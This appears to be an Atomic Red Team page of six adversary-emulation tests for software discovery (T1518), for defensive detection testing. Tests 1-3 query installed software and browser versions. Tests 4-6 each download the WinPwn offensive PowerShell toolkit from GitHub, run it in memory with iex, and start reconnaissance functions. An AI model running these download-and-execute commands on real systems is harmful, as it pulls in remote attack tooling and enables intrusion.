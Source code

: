 ```yaml
---
tags: [T1518, atomic_test]
filename: "[[T1518|T1518 - Software Discovery]]"
---
```

# T1518 - Software Discovery

## Atomic Test #1 - Find and Display Internet Explorer Browser Version
Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```






<br/>
<br/>

## Atomic Test #2 - Applications Installed
Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b






#### Attack Commands: Run with `powershell`! 


```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```






<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version
Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS


**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f






#### Attack Commands: Run with `sh`! 


```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch
Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet
Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL
Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```






<br/>
